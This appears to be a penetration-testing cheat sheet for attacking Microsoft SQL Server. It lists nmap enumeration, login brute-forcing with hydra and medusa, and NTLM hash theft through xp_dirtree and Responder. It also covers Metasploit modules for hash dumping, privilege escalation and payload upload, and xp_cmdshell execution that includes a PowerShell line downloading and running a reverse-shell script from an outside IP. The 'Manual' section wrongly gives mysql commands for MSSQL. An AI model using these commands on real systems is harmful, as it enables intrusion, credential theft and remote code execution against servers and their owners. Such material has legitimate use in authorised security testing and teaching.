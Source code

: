 ```yaml
---
description: (TCP 1433-4, 135/UDP 143)(TCP 1433-4, 135/UDP 143)
---
```


# MSSQL

## :information\_source: Introduction

#### [Microsoft SQL](https://medium.com/@toprak.mhmt/what-is-mssql-9a152d7d4ed0)

By default, the typical ports used by SQL Server and associated database engine services are: **TCP 1433, 4022, 135, 1434, UDP 1434.**

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] heck for DAC (Dedicated Access Connection)
* [ ] Login brute force
* [ ] Try NTLM relay with a fake SMB server
* [ ] If you can get access, check for privilege escalation methods to gain admin access to DB
* [ ] Check for CVEs

## Enumeration

```
nmap -sV -p 1433,1433  <IP>
nmap --script ms-sql-info <IP>
auxiliary/scanner/mssql/mssql_ping
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <I
```

## Authenticate with Empty Password

```
# Attempts to authenticate to Microsoft SQL Servers using an empty password forthe sysadmin (sa) account.
ms-sql-empty-password
```

## Login Brute Force

```
nmap -p 1433 –script ms-sql-brute –script-args userdb=[user.txt] ,passdb=[pass.txt] [target
use auxiliary/scanner/mssql/mssql_login
hydra -L [user.txt] –P [pass.txt] [target] mssql
medusa -h [target] –U [user.txt] –P [pass.txt] –M mssql
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

## Dedicated Admin Connection (DAC)

The DAC port is used to connect to the database instance when normal connection attempts fail, for example, when server is hanging, out of memory or in other bad states. In addition, the DAC port provides an admin with access to system objects otherwise not accessible over normal connections.

The DAC feature is accessible on the loopback adapter per default, but can be activated for remote access by setting the 'remote admin connection' configuration value to 1. In some cases, when DAC has been remotely enabled but later disabled, the sql browser service may incorrectly report it as available.

```
sudo nmap -sU -p 1434 --script ms-sql-dac <ip>
```

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1).png>)

## Query (with credentials)

### Automated

Queries Microsoft SQL Server (ms-sql) instances for a list of databases, linked servers, and configuration settings.

{% hint style="warning" %}
Credentials are required
{% endhint %}

```
nmap --script ms-sql-config
# example:
nmap -p 1433 --script ms-sql-config --script-args mssql.username=sa,mssql.password=sa <host>
```

sample output:

![](<../../.gitbook/assets/image (274) (1).png>)

#### Other nmap Scripts with Credentials

```
# Dumps the password hashes from an MS-SQL server in a format suitable
# Credentials required
ms-sql-dump-hashes

# Queries Microsoft SQL Server (ms-sql) instances for a list of databases a user hasaccess to.
# Credentials required
ms-sql-hasdbaccess

# Runs a query against Microsoft SQL Server (ms-sql).
# Credentials required.
ms-sql-query

# Queries Microsoft SQL Server (ms-sql) for a list of tables per database.
# Credentials required
ms-sql-tables

# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql)
# Credentials required
ms-sql-xp-cmdshell
```

#### Metasploit Modules:

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### impacket mssqlclient:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

#### sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

### Manual

#### Local:

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

Remote:

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u user@target-host
```

## MSSQL - SMB Relay Attack

If we are in the local network we can run an MitM attack and grab NTLM hashes by setting up a fake SQL server and making the service authenticate against our server.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit" %}

## Stored Procedures (db\_owner to sysadmin)

#### if we have the credentials of a DB user we can become sysadmin and execute commands remotely:

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}

### Metasploit

```
use auxiliary/admin/mssql/mssql_esclate_dbowner
set rhost 172.20.10.2
set rport 1433
set username db1_owner
set password MyPassword!
```

## Stored Procedures (user impersonation)

This technique is mostly used for privilege escalation.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}





















